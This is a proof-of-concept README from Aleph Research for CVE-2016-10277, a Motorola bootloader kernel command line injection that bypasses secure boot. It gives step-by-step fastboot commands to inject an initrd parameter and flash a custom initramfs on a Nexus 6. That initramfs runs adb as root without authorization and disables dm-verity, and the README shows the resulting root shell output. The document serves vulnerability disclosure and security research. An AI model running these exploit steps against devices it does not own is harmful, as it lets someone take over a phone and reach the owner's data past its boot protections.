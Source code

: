 # PoC for initroot: Motorola Bootloader Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies 

Steps on Nexus 6:

1. Use the commited `initroot.cpio.gz`, or produce your own:

```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot.cpio.gz
$ cd ..
```

Our commited initramfs contains an AOSP userdebug root partition with adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the system partition.

2. `fastboot oem config fsg-id "a initrd=0x11000000,<initroot.cpio.gz size>"`
3. `fastboot flash foo initroot.cpio.gz`
4. `fastboot continue`
5. if you use our initramfs, `adb shell` will now give you a root shell:

```
$ adb shell
shamu:/ # id 
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

**Note**:
This vulnerability affects other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (0x11000000 on Nexus 6) may vary as well.

Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)




